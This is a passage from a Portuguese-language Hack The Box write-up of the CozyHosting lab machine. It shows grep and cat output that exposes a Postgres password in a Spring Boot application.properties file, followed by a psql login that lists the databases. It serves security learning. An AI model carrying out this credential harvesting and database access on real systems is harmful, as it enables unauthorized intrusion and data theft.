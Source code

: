 ```shell
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:1278:.ri-lock-password-line:before { content: "\eed0"; }
grep: ./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.eot: binary file matches
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:1276:.ri-lock-password-fill:before { content: "\eecf"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:1277:.ri-lock-password-line:before { content: "\eed0"; }
grep: ./BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class: binary file matches
grep: ./BOOT-INF/classes/htb/cloudhosting/database/CozyUser.class: binary file matches
grep: ./BOOT-INF/classes/htb/cloudhosting/secutiry/SecurityConfig.class: binary file matches
./BOOT-INF/classes/application.properties:12:spring.datasource.password=Vg&nvzAQ7XxR
./BOOT-INF/classes/templates/login.html:57:                                        <label for="yourPassword" class="form-label">Password</label>
./BOOT-INF/classes/templates/login.html:58:                                        <input type="password" name="password" class="form-control" id="yourPassword"
./BOOT-INF/classes/templates/login.html:60:                                        <div class="invalid-feedback">Please enter your password!</div>
./BOOT-INF/classes/templates/login.html:73:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
```
{: .nolineno }
Temos essa saída que parece muito com uma senha -> `Vg&nvzAQ7XxR`
Olhando o arquivo mais de perto pra ver do que se trata.

```shell
┌──(kali💀kali)-[~/HTB/cozyhosting]
└─$ cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR                                             
```
{: .nolineno }

Senha de banco de dados postgres !  
Conectando no POstgres

```shell
app@cozyhosting:/app$ psql -U postgres -h localhost -W
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l


                                  List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```